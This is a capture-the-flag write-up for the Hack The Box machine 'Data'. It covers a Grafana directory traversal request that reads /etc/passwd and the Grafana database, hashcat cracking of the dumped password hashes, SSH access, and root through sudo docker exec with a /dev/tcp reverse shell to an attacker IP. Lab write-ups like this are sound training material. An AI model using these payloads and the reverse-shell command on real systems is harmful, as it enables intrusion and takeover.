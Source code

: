 # 🧪 Hack The Box — Data

**Platform:** Hack The Box  
**Difficulty:** Easy  
**IP:** 10.129.238.160  
**Date Completed:** 2025-07-25

---

## 🧭 Overview

This box explores vulnerabilities in Grafana — including directory traversal, SQLite DB leaks, salted SHA-256 password hashes, and Docker container privilege escalation.

---

## 🔍 Enumeration

```bash
nmap -sC -sV 10.129.238.160
```

Ports found:
- `22/tcp`: OpenSSH
- `3000/tcp`: Grafana

Directory traversal on Grafana exposed system files:

```http
GET /public/plugins/welcome/../../../../../../../../../../../../../etc/passwd
```

Extracted `grafana.db` and dumped the `user` table via SQLite:

```sql
SELECT * FROM user;
```

Used [grafana2hashcat](https://github.com/iamaldi/grafana2hashcat) to convert salted hashes and cracked them with `hashcat -m 10900`.

---

## 💻 Foothold

Logged in as **boris** via SSH:

```bash
ssh boris@data.htb
```

Got `user.txt`:
```
105d3977d1672bd473f25178xxxxx
```

---

## ⚙️ Privilege Escalation

```bash
sudo -l
```

```bash
(root) NOPASSWD: /snap/bin/docker exec *
```

Used Docker `exec` to escape into the container:

```bash
sudo docker exec --interactive --privileged --user root <container_id> /bin/sh -i >& /dev/tcp/10.10.14.4/4444 0>&1
```

Or used [Penelope](https://github.com/brightio/penelope) to catch shell.

Got `root.txt`:
```
40fec1da153ae8450e86a4b33a9cxxxxx
```

---

## ✅ Summary

**User:** Extract Grafana DB → Hashcat crack → SSH as boris  
**Root:** Docker `exec` on privileged container → root shell  
